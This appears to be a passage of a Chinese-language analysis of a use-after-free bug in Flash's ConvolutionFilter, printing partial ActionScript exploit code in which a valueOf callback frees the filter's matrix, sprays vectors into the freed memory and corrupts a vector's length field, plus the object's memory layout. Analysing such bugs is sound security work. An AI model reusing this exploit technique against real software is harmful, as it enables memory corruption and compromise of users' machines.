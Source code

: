这里有一个关键点，filter.matrix被赋值为m（类型是 Array），而Array m的第一个元素是一个Clasz类，而Clasz类定义了valueOf方法，这个valueOf是漏洞触发的关键点：

```
#c++
public class Clasz 
    {
        …
        public function Clasz() {   }

        prototype.valueOf = function()
        {
…
}

```

3 在Clasz的valueOf函数中，设置ConvolutionFilter.matrixX：

```
prototype.valueOf = function()
        {
            if (filter.matrixX > 14) throw new Error(""); // check for the second valueOf() call

            ref = new Array(5);
            collect.push(ref); // protect from GC // for RnD

            filter.matrixX = 15; // reallocate filter matrix

            // reuse freed memory
            for(var i:int; i < ref.length; i++) {
                ref[i] = new Vector.<uint>;
                ref[i].length = bLen;
            }

            // return value for vector length overwriting
            return 2; // = 0x40000000 as single precision

        }

```

事实上filter.matrixX = 15执行完毕之后，ConvolutionFilter内部的一个float数组（我们叫他matrixArray）就会被释放，而从valueOf返回之后，已经释放的matrixArray还会继续被使用，并且往里面写入数据，从而造成了Use-After-Free。我们可以看到valueOf函数中，在设置了filter.matrixX之后，分配了一系列的vector，这些vector就是用来占用释放后的matrixArray的内存的。这样当程序继续往被释放后的matrixArray里写数据时，实际上是在往vector对象里面写数据，从而达到修改vector长度字段的目的，便于进一步exploit。

0x02 细节分析
=====

我们首先先介绍一下ConvolutionFilter的关键结构：

```
ConvolutionFilterObject {
+10 ConvolutionFilter {
    +14     int matrixX;
    +18     int matrixY;
    +1C     float *matrixArray;
+20     int matrixLength;
}
}

```
